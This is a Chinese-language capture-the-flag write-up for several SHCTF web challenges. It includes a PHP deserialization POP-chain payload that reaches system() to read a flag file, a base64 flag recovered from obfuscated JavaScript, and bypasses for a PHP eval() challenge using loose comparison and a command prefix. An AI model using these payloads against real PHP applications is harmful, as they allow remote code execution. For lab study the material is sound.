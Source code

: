 - 最终在 `flag` 函数中调用 `SHCTF` 类中的 `__invoke` 魔术方法。    

Payload 如下：
```PHP
$c = new C();
$t = new T();
$f = new F();
$shctf = new SHCTF();

$t -> n = $f;
$f -> o = $c;
$c -> p = $shctf;
$shctf -> isyou = 'system';
$shctf -> flag = 'cd ..;cd ..;cd ..;cat flllag';

print_r(base64_encode(serialize($t)));
```

### 单身十八年的手速
- 改改 JS 代码就可以了。    
- 或者都不用修改，直接看到它满足条件之后返回的值。
```JavaScript
const addTimes = () => {
    times += 0x209;
    document[_0x3bac('0x2', '7)ZK')]('clickCount')['textContent'] = times;
    if (times >= 0x208) {
    	alert('U0hDVEZ7Y2M0NDdiNWEtNTg0Yy00MjhmLThjNTYtZWY1ZTAzN2Y5YTg3fQo=');
    }
}
```
- 发现是一串编码，猜测是 `base64`。    
- 解码即得出 flag：`SHCTF{cc447b5a-584c-428f-8c56-ef5e037f9a87}`。

### 蛐蛐?蛐蛐!
- 题目
```PHP
<?php
if($_GET['ququ'] == 114514 && strrev($_GET['ququ']) != 415411){
    if($_POST['ququ']!=null){
        $eval_param = $_POST['ququ'];
        if(strncmp($eval_param,'ququk1',6)===0){
            eval($_POST['ququ']);
        }else{
            echo("可以让fault的蛐蛐变成现实么\n");
        }
    }
    echo("蛐蛐成功第一步！\n");
}
else{
    echo("呜呜呜fault还是要出题");
}
?>
```
- 第一个绕过只需加入在 `114514` 后加入 php 弱类型判断忽略的字符即可如 `@`。    
- 第二个绕过只需参数前 6 个字符是 `ququk1`，之后使用空格将其隔断就可正常执行之后传递的命令。
